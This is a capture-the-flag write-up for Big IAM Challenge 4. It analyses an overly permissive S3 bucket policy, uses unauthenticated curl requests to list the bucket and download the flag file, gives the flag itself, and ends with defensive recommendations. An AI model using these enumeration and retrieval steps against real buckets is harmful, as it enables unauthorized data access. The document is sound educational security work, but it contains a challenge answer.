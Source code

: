 # Writeup for Big IAM Challenge: Challenge 4

Challenge Number
4

Challenge Statement
The goal of Challenge 4 is to exploit an overly permissive IAM policy on an Amazon S3 bucket. Although the challenge claims that only a specific admin user can access the bucket, the policy contains a flaw that allows unauthorized users to list and retrieve objects. This challenge highlights the risks of misconfigured S3 bucket permissions.

## IAM Policy

```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:GetObject",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321/*"
        },
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:ListBucket",
            "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321",
            "Condition": {
                "StringLike": {
                    "s3:prefix": "files/*"
                },
                "ForAllValues:StringLike": {
                    "aws:PrincipalArn": "arn:aws:iam::133713371337:user/admin"
                }
            }
        }
    ]
}
```

### Short analysis about the IAM policy

```
What do I have access to?

The policy allows anyone (Principal: "*") to retrieve objects from the bucket using s3:GetObject.
The policy also allows anyone to list the bucket’s contents using s3:ListBucket, but only under the condition that:
The prefix of the object starts with files/.
The requester’s AWS IAM ARN matches arn:aws:iam::133713371337:user/admin.
What don’t I have access to?

The policy intends to restrict s3:ListBucket to only the admin user using the aws:PrincipalArn condition. However, there are no such restrictions on s3:GetObject, which allows anyone to retrieve objects if they know the file names.
What do I find interesting?

Even though listing files is restricted, object retrieval is completely open due to the lack of conditions on s3:GetObject.
If I can guess or infer file names, I can directly download files from the bucket.
```

## Solution

Step 1: Attempt to List Files
I first attempted to list the files in the bucket using a cURL request:

```
curl "https://s3.amazonaws.com/thebigiamchallenge-admin-storage-abf1321?prefix=files/"
```

The response contained a list of objects in XML format:
 ```
<?xml version="1.0" encoding="UTF-8"?>
<ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/">
    <Name>thebigiamchallenge-admin-storage-abf1321</Name>
    <Prefix>files/</Prefix>
    <Contents>
        <Key>files/flag-as-admin.txt</Key>
        <LastModified>2023-06-07T19:15:43.000Z</LastModified>
        <ETag>"e365cfa7365164c05d7a9c209c4d8514"</ETag>
        <Size>42</Size>
        <StorageClass>STANDARD</StorageClass>
    </Contents>
    <Contents>
        <Key>files/logo-admin.png</Key>
        <LastModified>2023-06-08T19:20:01.000Z</LastModified>
        <ETag>"c57e95e6d6c138818bf38daac6216356"</ETag>
        <Size>81889</Size>
        <StorageClass>STANDARD</StorageClass>
    </Contents>
</ListBucketResult>

 ```

Step 2: Retrieve the Flag File
With the file name files/flag-as-admin.txt discovered, I downloaded it using another cURL request:

```
curl "https://s3.amazonaws.com/thebigiamchallenge-admin-storage-abf1321/files/flag-as-admin.txt"

```

The response contained the flag:

```
{wiz:principal-arn-is-not-what-you-think}
```

### Step 3: Submitted the Flag

Finally, I inserted the flag found in the "Insert flag here" textbox and was redirected to the success screen.

## Reflection

- **What was your approach?**
 I identified a flaw in the IAM policy where s3:GetObject had no restrictions, allowing me to directly download files once I knew their 
 names. Using the ability to list the bucket's contents, I was able to enumerate the filenames, making it easy to retrieve the flag.
 
- **What was the biggest challenge?**
 The policy appeared to restrict access to admin users, but in reality, public access was unintentionally granted due to the missing 
 conditions on s3:GetObject.
 
- **How did you overcome the challenges?**
 I realized that the lack of restrictions on s3:GetObject made it possible to directly download files from the bucket if I could enumerate 
 them. By listing the files with the s3:ListBucket action, I was able to retrieve the flag.
 
- **What led to the breakthrough?**
 Discovering that the s3:ListBucket was still accessible despite the restriction.
 Realizing that even if listing was blocked, guessing filenames like flag-as-admin.txt would still work because object retrieval was 
 unrestricted.

**On the Blue Side: Defensive Measures**  
  - Restrict the Principal: Replace Principal: "*" with specific AWS roles or accounts to prevent unauthorized access.
  - Add conditions to s3:GetObject: Ensure that the same conditions used for s3:ListBucket apply to s3:GetObject.
  - Block public access at the bucket level: Use AWS S3’s Block Public Access feature to prevent unintended public exposure.
  - Enable access logging: Monitor requests to identify unexpected access patterns.
  - Use signed URLs for access: Instead of allowing unrestricted s3:GetObject access, require temporary signed URLs that expire after a 
    short period.
  - Regularly audit bucket policies: Continuously review and test IAM policies to prevent misconfigurations.

This challenge highlights how misconfigured IAM policies can lead to unintended public access. Even though listing was restricted, allowing open object retrieval still exposed sensitive files. Proper IAM policy configurations are essential for securing AWS resources.
